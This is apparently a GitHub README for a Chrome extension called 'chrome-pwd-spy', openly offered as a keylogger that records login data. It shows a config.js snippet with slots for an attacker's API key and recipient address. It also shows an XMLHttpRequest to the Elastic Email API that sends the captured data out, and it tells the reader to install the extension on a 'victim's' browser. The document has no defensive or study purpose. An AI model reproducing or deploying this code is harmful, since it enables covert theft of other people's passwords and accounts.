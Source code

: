 ### #сhrome-pwd-spy

Simplest keylogger, directly records login data to transactional email (elasticemail right now).

##### how to use ->

*js/config.js:*

```javascript
 var config = {
     'apikey' : '', //<--- Your API key there
     'subject' : 'PWD',
     'from': '',  //<--- from
     'fromName' : 'ElasticEmail',
     'to' : '', //<--- to
     'charset': 'utf-8',
     'encodingType': 'base64'
 };
 
 var xhr = new XMLHttpRequest();
 xhr.open('GET', 'https://api.elasticemail.com/v2/email/send?' + generateQuery(obj, data), true);
 xhr.send();
```

Set your credentials, then install extension on your victim's chrome browser and that's it!

